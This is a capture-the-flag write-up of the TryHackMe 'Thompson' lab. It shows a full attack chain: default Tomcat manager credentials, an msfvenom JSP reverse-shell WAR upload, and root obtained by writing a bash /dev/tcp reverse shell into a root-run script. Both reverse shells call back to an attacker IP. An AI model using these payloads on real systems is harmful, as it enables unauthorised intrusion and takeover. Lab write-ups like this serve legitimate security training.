








# Thompson - TryHackMe

## Machine Information

| Property | Value |
|----------|-------|
| Platform | TryHackMe |
| Category | Linux |
| Difficulty | Easy |
| Skills | Apache Tomcat, WAR Deployment, Reverse Shell, Privilege Escalation |

---

# Objective

Obtain initial access to the target machine through the exposed Apache Tomcat service and escalate privileges to root.

---

# Attack Path

```
Reconnaissance
        │
        ▼
Apache Tomcat Enumeration
        │
        ▼
Manager Credentials Disclosure
        │
        ▼
WAR File Upload
        │
        ▼
Reverse Shell
        │
        ▼
Privilege Escalation
        │
        ▼
Root
```

---

# Enumeration

## Nmap Scan

Since SSH required authentication, the exposed Apache Tomcat instance on port **8080** became the primary attack surface.

```bash
nmap -p- -sCV -oN nmap 10.49.158.41
```


### Open Ports

| Port | Service |
|------|---------|
| 22 | SSH |
| 8080 | Apache Tomcat |

---

## Apache Tomcat Enumeration

Browsing to port **8080** presented the default Apache Tomcat landing page.



The **Manager App** immediately stood out as a potential entry point because it commonly provides administrative functionality.

---

## Information Disclosure

Selecting the **Manager App** prompted for authentication.

Initially, I attempted several common default credentials without success.

Instead of continuing to brute-force credentials, I selected **Cancel** on the authentication prompt.

This redirected the browser to:

```
/manager/html
```

The page disclosed the default Tomcat credentials.



```
Username: tomcat
Password: s3cret
```

---

# Initial Access

## Tomcat Manager Login

Using the disclosed credentials, I successfully authenticated to the Tomcat Manager.



The Manager interface allows administrators to deploy applications using **WAR** archives.

This functionality can be abused to upload a malicious web application and execute code remotely.

---

## Creating the Malicious WAR

I generated a Java WAR reverse shell using **msfvenom**.

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
LHOST=192.168.239.84 \
LPORT=4444 \
-f war > shell.war
```

---

## Deploying the Payload

Under the **WAR file to deploy** section, I uploaded the generated `shell.war`.

After deployment, Tomcat automatically created the following application:

```
/shell
```



---

## Receiving the Reverse Shell

Before triggering the payload, I prepared a Netcat listener.

```bash
nc -lvnp 4444
```

Accessing

```
http://10.49.158.41:8080/shell/
```

triggered the reverse shell.



---

## Shell Stabilization

To obtain a more interactive shell, I upgraded it using Python.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

# Post Exploitation

During local enumeration I discovered:

```
/home/jack
```

The directory was readable.

I also obtained the user flag.



---

# Privilege Escalation

Further enumeration revealed two interesting files.

```
id.sh
test.txt
```

The script contained:

```bash
#!/bin/bash

id > test.txt
```

Although `test.txt` was owned by **root**, executing the script successfully wrote to it.

Running the script produced:

```
uid=0(root)
```

This indicated that the script was being executed with root privileges.

---

## Verifying Root Execution

To confirm my assumption, I modified the script.

Original:

```bash
id > test.txt
```

Modified:

```bash
whoami > test.txt
```

Executing the script produced:

```
root
```

This confirmed that arbitrary commands placed inside the script were executed as **root**.

---

## Obtaining a Root Shell

I replaced the contents of the script with a Bash reverse shell that connected back to my attacking machine.

```bash
bash -i >& /dev/tcp/192.168.239.84/4444 0>&1
```

After preparing another Netcat listener,

```bash
nc -lvnp 4444
```

I executed the modified script and received a reverse shell running as **root** and successfully retrived the flag.



---

# Lessons Learned

- Always enumerate the Tomcat Manager interface thoroughly.
- Cancelling HTTP Basic Authentication prompts can sometimes reveal useful information.
- Administrative WAR deployment functionality can lead directly to Remote Code Execution.
- Writable scripts executed by privileged users should always be investigated during privilege escalation.

---

# Tools Used

- Nmap
- Netcat
- msfvenom
- Python
- Apache Tomcat Manager

---
